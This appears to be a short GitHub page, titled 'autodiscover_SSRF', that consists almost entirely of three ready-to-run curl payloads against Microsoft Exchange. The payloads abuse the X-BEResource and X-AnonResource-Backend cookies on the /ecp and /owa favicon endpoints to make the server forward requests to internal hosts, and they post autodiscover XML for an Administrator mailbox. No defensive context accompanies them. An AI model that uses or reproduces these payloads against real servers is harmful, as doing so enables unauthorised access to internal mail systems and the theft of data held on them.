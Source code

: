 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://pwnstar.pwndefend.com/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://pwnstar.pwndefend.com/owa/auth/favicon.ico'

Payload C

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalserver.domain.local/autodiscover/autodiscover.xml#~1941962753' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>\x0d\x0a' \
    $'https://externaldomain.local/ecp/favicon.ico'
